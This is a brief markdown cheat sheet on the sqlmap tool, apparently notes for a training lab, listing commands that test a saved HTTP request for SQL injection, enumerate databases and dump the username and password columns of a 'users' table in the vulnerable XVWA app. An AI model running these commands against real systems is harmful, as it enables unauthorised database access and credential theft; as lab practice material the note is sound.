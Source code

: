 # SQLMap

### Usage Example

```bash
sqlmap -r req.txt
sqlmap -r req.txt -p search --level 5 --risk 3 --dbs
sqlmap -r req.txt -p search --level 5 --risk 3 --current-db
sqlmap -r req.txt -p search --level 5 --risk 3 -D xvwa -T users -C username,password --dump
```



### Reference:

[SQL Injection with SQLMap](https://assets.ine.com/labs/ad-manuals/walkthrough-2129.pdf)
